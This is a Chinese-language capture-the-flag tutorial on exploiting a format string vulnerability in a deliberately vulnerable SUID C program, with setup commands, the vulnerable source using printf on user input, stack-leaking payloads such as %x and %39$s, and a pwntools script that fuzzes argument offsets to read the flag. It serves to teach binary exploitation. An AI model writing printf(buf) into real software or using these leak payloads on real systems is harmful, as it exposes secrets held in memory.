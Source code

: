 ﻿# 简介
“pwn"这个词的源起以及它被广泛地普遍使用的原因，源自于魔兽争霸某段讯息上设计师打字时拼错而造成的，原先的字词应该是"own"这个字，因为 ‘p’ 与 ‘o’ 在标准英文键盘上的位置是相邻的，PWN 也是一个黑客语法的俚语词，是指攻破设备或者系统。发音类似"砰”，对黑客而言，这就是成功实施黑客攻击的声音，而在ctf比赛里，pwn是对二进制漏洞的利用

下载这个github库，进入07文件夹
```
https://github.com/Crypto-Cat/CTF/tree/main/pwn/binary_exploitation_101
```
还是和上一篇文件一样，设置文件权限，将flag设置位只能root可读
```
chown root:root flag.txt
chmod 700 flag.txt
chown root:root format_vuln
```
设置程序位suid位
```
chmod 4655 format_vuln
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/30034a6c1e5b4d1d89e1d551c6e1725f.png)


# 获取文件信息
首先我们登录普通用户，然后使用checksec工具可以查看程序更详细的信息
```
checksec format_vuln
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b78f27d6aee842a9a54308c40d3b7478.png)


从上到下依次是
```
32位程序
部分RELRO，基本上所有程序都默认的有这个
没有开启栈保护
启用了数据执行防护
没有pie，意思是程序的内存空间不会被随机化
```

查看程序源代码


![在这里插入图片描述](https://img-blog.csdnimg.cn/401fa9fe461542d69c21cfe9b6f44995.png)

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  gid_t gid = getegid();  
  setresgid(gid, gid, gid);  //保证程序以root身份运行

  puts("We will evaluate any format string you give us with printf().");   //输出字符串
  
  FILE *file = fopen("flag.txt", "r");   //获取flag文件
  if (file == NULL) {    //如果flag文件不存在则退出程序
    printf("flag.txt is missing!\n");   //输出字符
    exit(0);   //退出程序
  }
  
  fgets(flag, sizeof(flag), file);    //获取flag字符串
  
  while(1) {   //一个循环
    printf("> ");   //输出字符串
    fgets(buf, sizeof(buf), stdin);    //获取我们的输入
    printf(buf);   //将我们的输入打印出来
  }  
  return 0;
}
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d06fc00da9bb4f6e8af808b616dc3c0c.png)
在这个程序里，最关键的地方就是printf函数这里，他是直接执行我们输入的内容，我们可以输入格式化的字符串来获取我们想要的信息
```
https://www.freecodecamp.org/news/format-specifiers-in-c/
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/8e792144ddbb428fb7d60602efcd8044.png)

更详细的格式化字符串攻击的文章：
```
https://vickieli.dev/binary%20exploitation/format-string-vulnerabilities/
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/0009a9dfd36b4457be494038a56a1c04.png)





# 从堆栈中泄漏值
现在我们运行程序看看

![在这里插入图片描述](https://img-blog.csdnimg.cn/bec2114ca4694368be7d00ccfb309f9e.png)

即使输入了很长的字符串也没有溢出缓冲区，但是我们输入%x试试

![在这里插入图片描述](https://img-blog.csdnimg.cn/bf45ac0153c2474fb0d5193c771efeb8.png)


可以看到，他输出了一些十六进制值，因为%x是从堆栈中读取数据的意思，printf函数打印了堆栈中内容，我们使用unhex将这些十六进制转换成ascii码看看

![在这里插入图片描述](https://img-blog.csdnimg.cn/fdcd7d97b6194fac806deea5986b319f.png)
可以看到倒叙的flag字符串，这些都是程序堆栈里的值，现在我们寻找一下程序的动态链接库的地址

列如，我还可以指定输出堆栈上的第n个参数
```
%10$x    //打印堆栈里第十个参数
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/1054e0da250e44649bd29211943cc052.png)



![在这里插入图片描述](https://img-blog.csdnimg.cn/11a5d3141982477182091867adc3f7ba.png)

但是我们输入%s就会报错

![在这里插入图片描述](https://img-blog.csdnimg.cn/3567b8c945a747cd9da1c64e9ef2ab70.png)



因为%s的意思是打印字符串，他会把当前地址看作指针，然后跳转到指定的位置再输出字符串，而第一个值不是一个有效的内存地址，所以报错了


![在这里插入图片描述](https://img-blog.csdnimg.cn/c317c7215e794bc2af1400f353a0d4f5.png)

我们需要一个一个尝试哪里是存放flag的地址，我们可以写一个遍历的脚本

![在这里插入图片描述](https://img-blog.csdnimg.cn/f6e4c221611349d0b586a39b23f4e859.png)




# pwntools
```
from pwn import *


elf = context.binary = ELF('./format_vuln', checksec=False)  //自动获取程序详细信息，如架构，操作系统

for i in range(100):   //对程序进行fuzz测试
    try:
        p = process(level='error')  //创建进程
        p.sendlineafter(b'> ', '%{}$s'.format(i).encode())  //程序发现'>'时发送指定内容，将第n个指针打印为字符串
        result = p.recvuntil(b'> ')   //接收程序输出的值，并存放到result变量里
        print(str(i) + ': ' + str(result))   //输出值
        p.close()  //退出程序
    except EOFError:    //如果程序运行失败
        pass    //退出程序

```

运行程序

![在这里插入图片描述](https://img-blog.csdnimg.cn/c1056bc5f30a4a3f9f835899f6d0cc5e.png)

在第39个内存地址处发现了flag，我们直接输入也能看到flag
```
%39$s
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b8b1e87c0d73417e8fda132c8f6e8c85.png)

格式化字符串漏洞文章
```
https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html
https://axcheron.github.io/exploit-101-format-strings/
https://docs.pwntools.com/en/stable/fmtstr.html
```
